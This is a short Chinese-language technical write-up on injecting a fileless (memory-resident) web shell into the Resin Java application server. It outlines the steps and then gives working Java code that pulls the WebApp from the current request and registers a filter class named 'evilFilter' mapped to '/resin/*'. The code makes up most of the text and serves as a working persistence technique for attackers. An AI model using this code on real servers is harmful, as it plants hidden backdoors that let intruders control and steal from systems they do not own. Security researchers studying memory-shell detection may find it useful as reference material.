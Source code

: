 ![image-20220106174411748](resin-fileless-shell.assets/image-20220106174411748.png)

注入思路

- 获取当前环境的WebApp(上下文)

- 构造filterMapping，添加`相关配置`

  ```
  filterMapping.setFilterClass();
  filterMapping.setFilterName();
  FilterMapping.URLPattern urlPattern = filterMapping.createUrlPattern();
  urlPattern.addText(urlPatternX);
  urlPattern.init();
  ```

- 调用成员方法addFilterMapping添加该filterMapping即可



代码实现

```java
String filterName = "evilFilter";
String urlPatternX = "/resin/*";
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Class servletInvocation = classLoader.loadClass("com.caucho.server.dispatch.ServletInvocation");
Object currentRequest = servletInvocation.getMethod("getContextRequest").invoke(null);
WebApp webApp = (WebApp)currentRequest.getClass().getMethod("getWebApp").invoke(currentRequest);
Class evilClazz = classLoader.loadClass("com.example.general.FilterShell");
FilterMapping filterMapping = new FilterMapping();
filterMapping.setFilterClass(evilClazz.getName());
filterMapping.setFilterName(filterName);
FilterMapping.URLPattern urlPattern = filterMapping.createUrlPattern();
urlPattern.addText(urlPatternX);
urlPattern.init();
webApp.addFilterMapping(filterMapping);
response.getWriter().write("inject success");
```
